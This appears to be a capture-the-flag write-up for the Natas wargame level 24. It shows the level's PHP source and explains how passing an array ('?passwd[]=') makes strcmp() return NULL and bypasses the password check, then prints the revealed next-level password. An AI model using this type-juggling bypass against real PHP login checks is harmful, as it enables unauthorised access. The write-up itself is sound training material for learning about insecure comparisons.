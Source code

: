 # Natas-24

## Source:

```php

<?php
if(array_key_exists("passwd",$_REQUEST)){

	if(!strcmp($_REQUEST["passwd"],"<censored>")){
		echo "<br>The credentials for the next level are:<br>";
		echo "<pre>Username: natas25 Password: <censored></pre>";
	}
	else{
		echo "<br>Wrong!<br>";
	}

}
// morla / 10111
?>
```

strcmp() returns NULL when one of its parameters is an array and !NULL returns True .

This condition for checking passwd can be bypassed by passing an array in $_REQUEST[”passwd”].

 ?passwd[]=

```
Warning
: strcmp() expects parameter 1 to be string, array given in
/var/www/natas/natas24/index.php
on line
23

The credentials for the next level are:
Username: natas25 
Password: GHF6X7YwACaYYssHVY05cFq83hRktl4c
```
